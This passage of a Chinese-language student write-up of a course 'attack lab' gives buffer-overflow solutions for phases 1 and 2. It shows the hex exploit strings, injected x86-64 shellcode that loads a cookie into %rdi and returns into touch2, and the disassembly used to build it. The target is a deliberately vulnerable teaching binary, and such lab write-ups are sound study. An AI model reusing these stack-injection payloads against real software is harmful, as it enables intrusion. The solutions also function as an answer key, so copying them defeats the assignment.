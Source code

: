 ```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a0 16 40 00 00 00 00 00
```

转换后输入即可

```bash
Cookie: 0x63149380
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	2017211523
	course	f18
	lab	attacklab
	result	117:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 A0 16 40 00 00 00 00 00
```

### phase_2

第二关根据题意，需要调用touch2，需要传递一个无符号整数值，其值为cookie，查看cookie文件，如下。

```bash
2017211523@bupt3:~/target117$ cat cookie.txt 
0x63149380
```

为了给touch2传参，我们需要将cookie值赋给%rdi，然后将touch2地址压栈，使用ret弹出touch2地址返回，调用touch2。

```assembly
mov     $0x63149380,%rdi
pushq   $0x4016cc
ret
```

将其编译为二进制之后在反汇编，得到如下，由此我们便知指令的机器码是多少。

```assembly
phase2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 80 93 14 63    mov    $0x63149380,%rdi
   7:   68 cc 16 40 00          pushq  $0x4016cc
   c:   c3                      retq
```

我们将指令的机器码放在getbuf时的栈顶，然后将返回值位置设置为栈顶地址，这样既可达到目的，调用getbuf时栈顶地址为0x5566f7a8。

```bash
48 c7 c7 80 93 14 63 68
cc 16 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
a8 f7 66 55 00 00 00 00
```
